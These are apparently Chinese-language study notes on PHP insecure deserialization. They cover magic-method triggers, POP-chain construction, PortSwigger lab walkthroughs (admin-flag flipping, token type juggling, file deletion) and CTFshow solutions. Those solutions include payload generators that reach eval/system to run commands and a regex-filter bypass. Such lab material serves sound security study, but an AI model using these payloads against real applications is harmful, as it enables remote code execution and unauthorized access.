


# 知识点

1. WEB攻防-PHP反序列化-魔术方法&触发规则
2. WEB攻防-PHP反序列化-POP链构造&黑白盒

# 魔术方法

|      方法名       |                                   调用条件                                    |
| :------------: | :-----------------------------------------------------------------------: |
|    `__call`    |                             调用不可访问或不存在的函数时被调用                             |
| `__callStatic` |                            调用不可访问或不存在的静态方法时被调用                            |
|   `__clone`    |                        进行对象 clone 时被调用，用来调整对象的克隆行为                        |
| `__construct`  |                                 构建对象时被调用                                  |
| `__debuginfo`  |           当调用 `var_dump()` 打印对象时被调用（当你不想打印所有属性），适用于 PHP 5.6 版本            |
|  `__destruct`  |                              明确销毁对象或脚本结束时被调用                              |
|    `__get`     |                             读取不可访问或不存在的属性时被调用                             |
|   `__invoke`   |                              当以函数方式调用对象时被调用                               |
|   `__isset`    |                 对不可访问或不存在的属性调用 `isset()` 或 `empty()` 时被调用                 |
|    `__set`     |                            当给不可访问或不存在的属性赋值时被调用                            |
| `__set_state`  | 当调用 `var_export()` 导出类时，此静态方法被调用。用 `__set_state` 的返回值做为 `var_export` 的返回值 |
|   `__sleep`    |                 当使用 `serialize` 时被调用，当你不需要保存大对象的所有数据时很有用                  |
|  `__toString`  |                              当一个类被转换成字符串时被调用                              |
|   `__unset`    |                        对不可访问或不存在的属性进行 `unset` 时被调用                        |
|   `__wakeup`   |                    当使用 `unserialize` 时被调用，可用于做对象的初始化操作                    |

# 反序列化常见起点

|     方法名      |         调用条件         |
| :----------: | :------------------: |
|  `__wakeup`  |        一定会调用         |
| `__destruct` |        一定会调用         |
| `__toString` | 当一个对象被反序列化后又被当做字符串使用 |

# 反序列化常见跳板

|     方法名      |                   调用条件                    |
| :----------: | :---------------------------------------: |
| `__toString` |               当一个对象被当做字符串使用               |
|   `__get`    |             读取不可访问或不存在的属性时被调用             |
|   `__set`    |            当给不可访问或不存在的属性赋值时被调用            |
|  `__isset`   | 对不可访问或不存在的属性调用 `isset()` 或 `empty()` 时被调用 |

# 反序列化常见终点

|          方法名           |       调用条件        |
| :--------------------: | :---------------: |
|        `__call`        | 调用不可访问或不存在的方法时被调用 |
|    `call_user_func`    | 一般 PHP 代码执行都会选择这里 |
| `call_user_func_array` | 一般 PHP 代码执行都会选择这里 |

# 常见魔术方法触发规则

[魔术方法](WebSec0x21#魔术方法)见上表

```php
O:6:"Person":3:{s:4:"name";s:7"Anemone";s:3:"sex";s:3:"man",s:3:"age";i:19}
```



- 对象逻辑

## `__construct()`

当对象new的时候会自动调用，其作用是拿来初始化一些值

##  `__destruct()`

当对象被销毁时会被自动调用，其最主要的作用是拿来做垃圾回收机制

```php
<?php  
header("Content-type:text/html;charset=utf-8");  
  
class Test{  
    public $name;  
    public $age;  
    public $gender;  
  
	// 实例化对象时候调用,初始化一些值
    public function __construct()  
    {  
        echo '__construct初始化魔术方法被执行'.'<br>';  
    }  
  
    // 当对象销毁时会调用此方法
    // 也可以是用户主动销毁对象
    // 也可以是当程序结束时由引擎自动销毁  
    public function __destruct()  
    {  
        echo '__destruct类魔术方法执行完毕'.'<br>';  
    }  
}  
  
// 先创建对象  
$test = new Test();  
// 主动销毁对象  
unset($test);  
echo '第一种执行完毕'.'<br>';  
echo '--------------------<br>';
```

主动销毁对象打印结果如下:

```
__construct初始化魔术方法被执行  
__destruct类魔术方法执行完毕  
第一种执行完毕  
--------------------
```

程序结束自动销毁打印结果如下:

```
__construct初始化魔术方法被执行  
第一种执行完毕  
--------------------  
__destruct类魔术方法执行完毕
```

## `__sleep()`

`__sleep()` 在 `serialize()` 被调用时自动触发

```php
class Test{  
    public $name;  
    public $age;  
    public $gender;  
  
    // 实例化对象时候调用,初始化一些值  
    public function __construct($name, $age, $gender)  
    {  
        echo "__construct初始化"."<br>";  
        $this->name = $name;  
        $this->age = $age;  
        $this->gender = $gender;  
    }  
  
    // __sleep():在serialize执行时被调用,可以指定要序列化的对象属性  
    public function __sleep()  
    {  
        echo "当在类外部使用serialize()时会调用这里的__sleep()方法<br>";  
        // __sleep() 必须返回一个数组
        // 例如:指定只需要name和age进行序列化  
        return array("name", "age");  
    }  
      
}  
  
$a = new Test("xxx",24,'man');  
echo serialize($a);
```

打印结果如下:

```
__construct初始化  
当在类外部使用serialize()时会调用这里的__sleep()方法  
O:4:"Test":2:{s:4:"name";s:3:"xxx";s:3:"age";i:24;}
```

## `__wakeup()`

`unserialize()`时会被自动调用

其实`__sleep()`在此处也是被执行的,因为进行了序列化的操作

```php
class Test{  
    public $name;  
    public $age;  
    public $gender;  
  
    // 实例化对象时候调用,初始化一些值  
    public function __construct($name, $age, $gender)  
    {  
        echo "__construct初始化"."<br>";  
    }  
  
    public function __wakeup()  
    {  
        echo "当在类外部使用unserialize()时会调用这里的__wakeup()方法<br>";  
    }  
  
}  
  
$file = new Test("xxx",24,'man');  
$a = serialize($file);  
unserialize($a);
```

## `__invoke()`

```php
class Test{  
    // 以调用函数的方式调用一个对象时,__invoke()方法会被自动调用  
    public function __invoke($name, $age, $gender)  
    {  
        echo "这是一个对象"."<br>";  
        var_dump($age);  
    }  
}  
  
$a = new Test();  
// 将对象当作函数调用,触发__invoke()魔术方法  
$a('xxx',24,'man');
```

打印结果如下:

```
这是一个对象  
int(24)
```

## `__toString()`

把类当作字符串使用时触发

```php
class Test{  
  
    public $show = "this is a string";  
  
    public function showstring()  
    {  
        echo $this->show."<br>";  
    }  
    public function __toString()  
    {  
        return "__tostring魔术方法被执行";  
    }  
}  
  
$a = new Test();  
// 一般都是使用echo输出字符串  
// 但是当使用echo输出对象时,__tostring就会被调用
echo $a->showstring();// 仅显示打印出来的内容
echo $a;// 调用__tostring
```

## `__call()`

调用某个方法,若方法存在,则直接调用;若方法不存在,则调用`__CALL()`函数 

```php
class Test{  
    //__CALL()魔术方法:调用某个方法,若方法存在,则直接调用;若方法不存在,则调用__CALL()函数  
    public function something($number,$string)  
    {  
        echo "存在一些方法"."<br>";  
        echo $number."------".$string."<br>";  
    }  
    public function __call($method, $args)  
    {  
        echo "不存在".$method."方法"."<br>";  
        var_dump($args);  
    }  
}  
  
$a = new Test();  
$a->something(1,'aaa');  
$a->test(2,'bbb');
```

结果如下:

```
存在一些方法  
1------aaa  
不存在test方法  
array(2) { [0]=> int(2) [1]=> string(3) "bbb" }
```

## `__get()`

读取对象属性时,若不存在，则会调用`__get`函数

```php
class Test{  
    //__get()魔术方法:读取一个对象的属性时,若属性存在,则直接返回属性值;若属性不存在,则会调用__get()函数  
    public $know = '我是存在的';  
    public function __get($unknow)  
    {  
        echo "调用__get(),发现不存在成员变量".$unknow."<br>";  
    }  
}  
  
$a = new Test();  
// 存在成员变量know,所以不调用__get()  
echo $a->know."<br>";  
// 不存在成员变量,所以调用__get()  
echo $a->nothing;
```

打印结果为:

```
我是存在的  
调用__get(),发现不存在成员变量nothing
```

## `__set()`

设置对象的属性时,若不存在,则调用`__set`函数

```php
class Test{  
    //__set()魔术方法:设置一个对象的属性时,若属性存在,则直接赋值;若属性不存在,则会调用__set()函数  
    public $know = 888;  
    public function __set($unknow, $value)  
    {  
        echo "调用__set(),发现不存在成员变量".$unknow."<br>";  
        echo "即将设置的值:".$value."<br>";  
        $this->know = $value;  
    }  
  
    public function getvalue(){  
        echo $this->know."<br>";  
    }  
}  
  
$a = new Test();  
// 访问know属性时调用,并设置值为999  
$a->know = 999;// 正常赋值,如果注释掉就是输出888初始值
// 经过__set()方法的设置know属性的值为1999
$a->unknow = 1999;// 不存在的属性
$a->getvalue()."<br>";
```

存在显示:`999`,如果不赋值就会显示`888`

不存在显示:

```
调用__set(),发现不存在成员变量unknow  
即将设置的值:1999  
1999
```

## `isset()`

在不可访问的属性上调用isset()或empty()触发

```php
class Test{  
    //__isset()魔术方法:
    //1.检查对象的某个属性是否为非公共属性
    //2.当对不可访问属性调用isset()或者empty()时,__isset()会被调用  
    public $gender;  
    private $name;  
    private $age;  
    public function __construct($name, $age,$gender)  
    {  
        $this->name = $name;  
        $this->age = $age;  
        $this->gender = $gender;  
    }  
  
    // __isset():当对不可访问属性调用isset()或者empty()时,__isset()会被调用  
    public function __isset($content)  
    {  
        // echo"当在类外部使用isset()函数测定私有成员{$content} 时，自动调用<br>";  
        echo "__isset()被执行了"."<br>";  
        return isset($content);  
    }  
}  
  
$a = new Test("保密",24,"man");  
// public成员  
echo ($a->gender)."<br>";  
// private成员,以下两种都会触发__isset()
//isset($a->name);  
empty($a->name);
```

## `__unset()`

在不可访问的属性上使用unset()时触发

```php
class Test{  
    //__unset()魔术方法:
    //1.当对不可访问属性
    //2.unset()销毁对象的某个属性时,执行此函数  
    public $gender;  
    private $name;  
    private $age;  
    public function __construct($name, $age,$gender)  
    {  
        $this->name = $name;  
        $this->age = $age;  
        $this->gender = $gender;  
    }  
  
    // __unset()魔术方法:销毁对象的某个属性时,执行此函数  
    public function __unset($content)  
    {  
        echo"当在类外部使用unset()函数测定私有成员{$content} 时，自动调用<br>";  
    }  
}  
  
$a = new Test("保密",24,"man");  
// public成员  
unset($a->gender);  
// private成员,以下两种都会触发__unset()  
unset($a->name);  
unset($a->age);
```

# 序列化和反序列化

## 什么是反序列化操作？

- 序列化：将对象转换为数组或字符串等格式

- 反序列化：将数组或字符串等格式转换成对象

- serialize():将对象转换成一个字符串，序列化操作

- unserialize():将字符串还原成一个对象，反序列化操作

- 数据类型转换、主要用于数据传输。

一般的，序列化用来做数据类型转换、主要用于数据传输。

在网络中，不可能以代码的数据格式去传输数据，则会用到序列化技术将数据格式类型转换后再进行传输

```php
class user{
	public $name = 'xxx';
	public $sex = 'man';
	public $age = 24;
}

$demo = new user();

$s = serialize($demo);// 序列化
$u = unserialize($s)// 反序列化
```

- PHP & JavaEE & .NET & Python（见流程图）



- [反序列化常见起点](#反序列化常见起点)

`__wakeup`:在 `unserialize()` 反序列化还原对象时**自动触发**的魔术方法。它是反序列化漏洞利用链中**最常见的入口（起点）之一**，常被用于在对象恢复前执行初始化操作。**注意**：并非所有漏洞链都必须经过它（例如可直接从 `__destruct()` 起步），但在 CTF 和实战挖掘中，它是优先排查的高危触发点。

`__destruct`:在对象被销毁（脚本执行结束或手动 `unset()`）时**自动触发**。它是反序列化漏洞中**最稳定的入口**，因为脚本结束时所有对象必然销毁，无需额外交互。常被用于写 Webshell、执行系统命令或触发后续链条。

`toSring`:当对象被当作**字符串**使用（如 `echo $obj`、`"$obj"` 双引号拼接、`strlen($obj)`）时**自动触发**。它既是**入口跳板**（衔接 `echo` 等输出流），也是**敏感信息泄露点**（可返回任意字符串），在利用链中常作为承上启下的关键方法。

- [反序列化常见跳板](#反序列化常见跳板)

`toString`:同上,当对象被当作**字符串**使用（如 `echo $obj`、`"$obj"` 双引号拼接、`strlen($obj)`）时**自动触发**。它既是**入口跳板**（衔接 `echo` 等输出流），也是**敏感信息泄露点**（可返回任意字符串），在利用链中常作为承上启下的关键方法。

`__get`:当**读取**对象中**不存在或不可访问**的属性（如 `$obj->nonexist`）时**自动触发**。常作为**属性劫持跳板**，用于绕过访问限制，将不存在的属性读取动态映射到危险方法（如返回 `$this->cmd` 等）。

`__set`:当**赋值**给对象中**不存在或不可访问**的属性（如 `$obj->nonexist = 1`）时**自动触发**。常作为**变量覆盖跳板**，用于在赋值过程中插入恶意逻辑、修改核心属性值或触发后续敏感操作。

`__isset`:当对对象中**不存在或不可访问**的属性使用 `isset()` 或 `empty()` 时**自动触发**。通常作为**辅助跳板**，配合 `__get()` 或 `__set()` 一起出现，用于完善属性检查的逻辑链条。

- [反序列化常见终点](#反序列化常见终点)

`__call`:当**调用**对象中**不存在或不可访问**的方法（如 `$obj->someFunc()`）时**自动触发**。在利用链中常作为**方法劫持跳板**，用于将不存在的方法调用动态转发到 `call_user_func()` 或其他可执行恶意代码的终点。

`call_user_func`:**不是魔术方法**，而是 PHP 内置的**危险回调函数**。用于动态调用用户指定的函数。在反序列化漏洞链中，它通常充当**最终执行点（终点）**，配合链中传入的 `system`、`assert`、`eval` 等恶意函数名直接执行系统命令或代码。

`call_user_func_array`:与 `call_user_func` 类似，区别在于参数以**索引数组**形式传递。同样是**常见终点（RCE点）**，常用于需要精确控制参数结构时的回调执行。

## 为什么会出现安全漏洞？

原理：未对用户输入的序列化字符串进行检测，导致攻击者可以控制反序列化过程，从而导致代码执行，SQL注入，目录遍历等不可控后果。在反序列化的过程中自动触发了某些魔术方法。当进行反序列化的时候就有可能会触发对象中的一些魔术方法。

下面就是一个反序列化漏洞举例:

发现PHP 脚本执行结束后，所有对象会被销毁，**必然触发**`__destruct`,而且存在system系统命令执行的危险操作,那么如果变量cmd的值可以修改,是不是就造成了反序列化+rce漏洞

```php
<?php
class B{
public $cmd='';
public function __destruct(){
        system($this->cmd);
    }
}
//函数引用，无对象创建触发魔术方法
unserialize($_GET['x']);
```

POP链构造代码:

```php
// 在以上代码的基础上
// 本地生成 Payload 的代码
$b = new B();
$b->cmd = "whoami";  // 改成任意命令
echo serialize($b); 
// 输出：O:1:"B":1:{s:3:"cmd";s:6:"whoami";}
```

此处的x就是要传序列化的值,url:`xxx.xxx.xxx.xxx:xx/index.php?x=O:1:"B":1:{s:3:"cmd";s:6:"whoami";}`

## 漏洞产生条件

可控变量、反序列函数、引用对象下的魔术方法、魔术方法里的危险函数(例如system等就会造成命令执行漏洞)或者魔术方法的文件上传等危险操作

## 反序列化漏洞如何利用？- POP链构造

POP：面向属性编程（Property-Oriented Programing）常用于上层语言构造特定调用链的方法，序列化攻击都在PHP魔术方法中出现可利用的漏洞，因自动调用触发漏洞，但如关键代码没在魔术方法中，而是在一个类的普通方法中。这时候就可以通过构造POP链寻找相同的函数名将类的属性和敏感函数的属性联系起来。

POP链构造代码:

```php
<?php  
class Demo1{  
    public $cmd = '';//calc notepad等等
  
}  
echo serialize(new Demo1());
// 输出内容就是攻击的pop链
// O:5:"Demo1":1:{s:3:"cmd";s:0:"";}
```

# 黑盒-portswigger-数据序列化

真实情况下，黑盒很难挖到反序列化(基本都是看代码来挖)  ,因为实战中会发现这种传参的地方也会有加密或者操作类不明确等等

**黑盒的核心就是找到序列化的数据**,而且rce或者文件上传删除等都是由目标的魔术方法中的操作来决定的

靶场地址：[https://portswigger.net/web-security/all-labs#insecure-deserialization](https://portswigger.net/web-security/all-labs#insecure-deserialization)

## DEMO1-反序列化越权

登录用户后抓包,发现有加密后的数据,经过url解码以及base64解码之后发现序列化后的数据

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

b在php中代表bool的意思,只有真或者假,把b修改为1,进行加密,放回原数据包处,同时触发地址也改为admin的页面

## DEMO2-反序列化越权

base64解码之后

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"xxxx...//这里是token";}
```

修改为i也就是int型,值为0,目的是绕过 `=== false` 或 `=== null`的校验

如果后端判断用的是 `==`（松散比较，如 `if ($token == 0)`），那么不仅 `i:0` 能绕过，像 `s:1:"0"` 也能绕过。但为什么还是检查使用 `i:0`？因为 **`===` 是全等比较**，必须类型也匹配，只有把类型从 `s` 改成 `i`，才能精准命中后端可能存在的 `=== 0` 严格判断逻辑。

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

## DEMO3-反序列化导致任意文件删除漏洞

登录用户之后只有删除账户的按钮,抓包解码

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"elrtoxj3rcx3n1ip4u723mk839qht90h";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

如果暴露出来的路径进行修改,就达到了任意文件删除的操作

# 白盒-CTFSHOW-训练POP链构造

POP链核心就是代码有用的留下，没用的删掉

## 254-对象引用执行逻辑

```php
<?php  
class ctfShowUser{  
    public $username = 'xxxxxx';  
    public $password = 'xxxxxxx';  
    public $isVip = false;  
  
    public function checkvip()// 检查isVip  
    {  
        return $this->isVip;  
    }  
  
    public function login($u,$p)  
    {  
        if($this->username===$u && $this->password===$p){  
            $this->isVip = true;  // 登录时,账号密码对应,则isVip为真
        }  
        return $this->isVip;  
    }  
  
    public function vipOneKeyGetFlag()  
    {  
        if($this->isVip){  // isVip为真则给出flag
            global $flag;  
            echo $flag;  
        }else{  
            echo "no";  
        }  
    }  
}

$username = $_GET['username'];  
$password = $_GET['password'];  
  
if(isset($username) && isset($password)){  
    $user = new ctfShowUser();  
    if ($user->login($username, $password)) {  
        if($user->checkvip()){  
            $user->vipOneKeyGetFlag();  
        }  
    }else{  
        echo "no";  
    }  
}
```

这关主要就是检测username和password

payload:

```
username=xxxxxx&password=xxxxxx
```

## 255-反序列化变量修改

```php
<?php   
class ctfShowUser  
{  
    public $username = 'xxxxxx';  
    public $password = 'xxxxxxx';  
    public $isVip = false;  
  
    public function checkvip()  
    {  
        return $this->isVip;  
    }  
  
    public function login($u, $p)  
    {  
        return $this->username == $u && $this->password == $p;  
    }  
  
    public function vipOneKeyGetFlag()  
    {  
        if ($this->isVip) {  
            global $flag;  
            echo $flag;  
        } else {  
            echo "no";  
        }  
    }  
}  
  
$username = $_GET['username'];  
$password = $_GET['password'];  
  
if (isset($username) && isset($password)) {  
    $user = unserialize($_COOKIE['user']);  // 与上一关只有这里不同
    if ($user->login($username, $password)) {  
        if ($user->checkvip()) {  
            $user->vipOneKeyGetFlag();  
        }  
    } else {  
        echo "no";  
    }  
}
```

这关是通过cookie方式接收变量user的值进行反序列化,登录用户后判断$user的值是否与checkvip一致

POP链:

```php
<?php
// 账号密码不做修改
class ctfShowUser{
    public $isVip=true;
}
$a=new ctfShowUser();
echo urlencode(serialize($a));
?>
```

payload:

```
Get:username=xxxxxx&password=xxxxxx
Cookie:user=转url后的序列化数据
```

## 256-反序列化参数修改

```php
class ctfShowUser  
{  
    public $username = 'xxxxxx';  
    public $password = 'xxxxxxx';  
    public $isVip = false;  
  
    public function checkvip()  
    {  
        return $this->isVip;  
    }  
  
    public function login($u, $p)  
    {  
        return $this->username == $u && $this->password == $p;  
    }  
  
    public function vipOneKeyGetFlag()  
    {  
        if ($this->isVip) {  
            global $flag;  
            if($this->username!=$this->password){  // 只有这里加了一层判断,账号不等于密码的情况下
                echo $flag;  
            }  
        } else {  
            echo "no";  
        }  
    }  
}  
  
$username = $_GET['username'];  
$password = $_GET['password'];  
  
if (isset($username) && isset($password)) {  
    $user = unserialize($_COOKIE['user']);  
    if ($user->login($username, $password)) {  
        if ($user->checkvip()) {  
            $user->vipOneKeyGetFlag();  
        }  
    } else {  
        echo "no";  
    }  
}
```

POP链:

```php
<?php
class ctfShowUser{
    public $username='xxx';
    public $password='xxxxx';
    public $isVip=true;
}
$a=new ctfShowUser();
echo urlencode(serialize($a));
?>
```

payload:

```
GET:username=test&password=test1
COOKIE:user=转url后的序列化数据
```

## 257-反序列化参数修改&对象调用逻辑

```php
class ctfShowUser  
{  
    public $username = 'xxxxxx';  
    public $password = 'xxxxxxx';  
    public $isVip = false;  
    private $class = 'info';  // class属性的值在反序列化时完全可控
  
    public function __construct()  
    {  
        $this->class = new info();  // 给当前这个对象的class属性，赋值一个刚刚实例化（创建）出来的info类的新对象
    }  
  
    public function login($u, $p)  
    {  
        return $this->username == $u && $this->password == $p;  
    }  
  
    public function __destruct()
    {  
        $this->class->getInfo();  
    }  
}  

// 可以忽略掉上方ctfShowUser类,因为只做了初始化 验证 以及销毁,但是需要注意的是class属性的值在反序列化时完全可控
// info这个类也没什么需要注意的点
  
class info  
{  
    private $user='xxxxxx';  
    public function getInfo(){  
        return $this->user;  
    }  
}  

// 关键是backDoor部分

class backDoor  
{  
    private $code;  
  
    public function getInfo()  
    {  
        eval($this->code);  // 关键点,控制这里,代码执行去找flag
    }  
}  
  
$username = $_GET['username'];  
$password = $_GET['password'];  
  
if (isset($username) && isset($password)) {  
    $user = unserialize($_COOKIE['user']); 
    $user->login($username, $password);  
}
```

POP链:

```php
<?php
class ctfShowUser{
    public $class = 'backDoor';
public function __construct(){
        $this->class=new backDoor();
    }
}
class backDoor{
    public $code='system("tac flag.php");';
    
}
echo urlencode(serialize(new ctfShowUser));
?>
```

payload:

```
GET:username=xxxxxx&password=xxxxxx
COOKIE:user=转url后的序列化数据
```

## 258-反序列化参数修改&对象调用逻辑&正则

```php
class ctfShowUser  
{  
    public $username = 'xxxxxx';  
    public $password = 'xxxxxxx';  
    public $isVip = false;  
    private $class = 'info';  
  
    public function __construct()  
    {  
        $this->class = new info();  
    }  
  
    public function login($u, $p)  
    {  
        return $this->username == $u && $this->password == $p;  
    }  
  
    public function __destruct()  
    {  
        $this->class->getInfo();  
    }  
}  
  
class info  
{  
    private $user='xxxxxx';  
    public function getInfo(){  
        return $this->user;  
    }  
}  
  
class backDoor  
{  
    private $code;  
  
    public function getInfo()  
    {  
        eval($this->code);  
    }  
}  
  
$username = $_GET['username'];  
$password = $_GET['password'];  
  
if (isset($username) && isset($password)) {  
    if (!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])) {  // 与上一关不同的是这边加了检验,O:后不能直接出现数字
        $user = unserialize($_COOKIE['user']);  
    }  
    $user->login($username, $password);  
}
```

POP链:

```php
<?php
class ctfShowUser{
    public $class = 'backDoor';
    public function __construct(){
        $this->class=new backDoor();
    }
}
class backDoor{
    public $code="system('tac flag.php');";
}
$a=serialize(new ctfShowUser());
$b=str_replace(':11',':+11',$a); // +11也是11,也就是正11
$c=str_replace(':8',':+8',$b);  // 同理
echo urlencode($c);
?>

```

payload:

```
GET:username=123&password=123
COOKIE:user=转url后的序列化数据
```